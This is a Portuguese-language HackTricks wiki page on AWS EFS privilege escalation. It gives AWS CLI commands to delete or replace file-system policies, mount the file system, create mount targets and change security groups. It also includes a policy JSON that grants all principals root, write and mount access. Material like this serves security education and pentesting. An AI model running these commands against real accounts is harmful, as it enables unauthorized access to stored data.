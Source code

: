 # AWS - EFS Privesc

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## EFS

Mais **informações sobre EFS** em:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Lembre-se de que, para montar um EFS, você precisa estar em uma sub-rede onde o EFS está exposto e ter acesso a ele (grupos de segurança). Se isso estiver acontecendo, por padrão, você sempre poderá montá-lo, no entanto, se estiver protegido por políticas do IAM, você precisará ter as permissões extras mencionadas aqui para acessá-lo.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Com qualquer uma dessas permissões, um atacante pode **alterar a política do sistema de arquivos** para **conceder acesso** a ele ou simplesmente **deletá-la** para que o **acesso padrão** seja concedido.

Para deletar a política:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Para alterá-lo:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Com essa permissão, um atacante poderá **montar o EFS**. Se a permissão de escrita não for concedida por padrão a todos que podem montar o EFS, ele terá apenas **acesso de leitura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
As permissões extras `elasticfilesystem:ClientRootAccess` e `elasticfilesystem:ClientWrite` podem ser usadas para **escrever** dentro do sistema de arquivos após ele ser montado e para **acessar** esse sistema de arquivos **como root**.

**Impacto Potencial:** Privesc indireto localizando informações sensíveis no sistema de arquivos.

### `elasticfilesystem:CreateMountTarget`

Se um atacante estiver dentro de uma **sub-rede** onde **nenhum alvo de montagem** do EFS exista. Ele poderia simplesmente **criar um na sua sub-rede** com esse privilégio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indireto ao localizar informações sensíveis no sistema de arquivos.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Em um cenário onde um atacante descobre que o EFS tem um alvo de montagem em sua sub-rede, mas **nenhum grupo de segurança está permitindo o tráfego**, ele poderia simplesmente **alterar isso modificando os grupos de segurança selecionados**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indireto localizando informações sensíveis no sistema de arquivos.

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
